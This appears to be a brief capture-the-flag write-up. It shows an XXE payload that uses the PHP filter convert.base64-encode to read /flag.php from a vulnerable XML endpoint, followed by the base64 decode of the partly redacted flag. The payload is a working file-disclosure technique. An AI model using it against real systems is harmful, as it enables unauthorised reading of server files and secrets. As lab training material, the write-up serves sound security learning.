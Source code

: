 Send a malicious XXE payload that will read the flag file "/flag.php" via the the PHP filter convert.base64-encode:

<img width="961" height="590" alt="image" src="https://github.com/user-attachments/assets/cdb06f97-16d2-4c4f-8aa6-8c5b3a25d4b3" />

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>test</details>
    <date>2021-09-22</date>
</root>
```
<img width="1221" height="457" alt="image" src="https://github.com/user-attachments/assets/a02fa999-9a21-4c5f-8f18-da0d33e7b8d0" />

<img width="1013" height="325" alt="image" src="https://github.com/user-attachments/assets/58347ee8-f040-45bd-a6f1-6b835e57460f" />


Decode the Flag: 

```
$ echo -n 'PD9waHAgJGZsYWcgXXXXXXXXXXXXXXXXXc3NGNrM3J9IjsgPz4K' | base64 -d
<?php $flag = "HTB{m4XXXXXXXXXXXck3r}"; ?>
```













